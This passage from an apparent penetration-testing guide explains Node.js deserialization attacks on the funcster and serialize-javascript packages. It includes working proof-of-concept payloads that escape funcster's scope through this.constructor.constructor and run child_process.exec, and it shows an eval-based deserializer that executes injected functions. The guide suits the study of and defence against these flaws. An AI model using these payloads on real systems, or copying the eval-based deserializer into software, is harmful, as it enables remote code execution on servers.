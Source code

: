 You can **** [**find here**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **further information** about how to exploit this vulnerability.

### [funcster](https://www.npmjs.com/package/funcster)

The interesting difference here is that the **standard built-in objects are not accessible**, because they are out of scope. It means that we can execute our code, but cannot call build-in objects’ methods. So if we use `console.log()` or `require(something)`, Node returns an exception like `"ReferenceError: console is not defined"`.

However, we can easily can get back access to everything because we still have access to the global context using something like `this.constructor.constructor("console.log(1111)")();`:

```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```

**For**[ **more information read this page**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### ****[**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)****

The package **doesn’t include any deserialization functionalit**y and requires you to implement it yourself. Their example uses `eval` directly. This is the official deserialisation example:

```javascript
function deserialize(serializedJavascript){
  return eval('(' + serializedJavascript + ')');
}
```

If this function is used to deserialize objects you can **easily exploit it**:

```javascript
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```
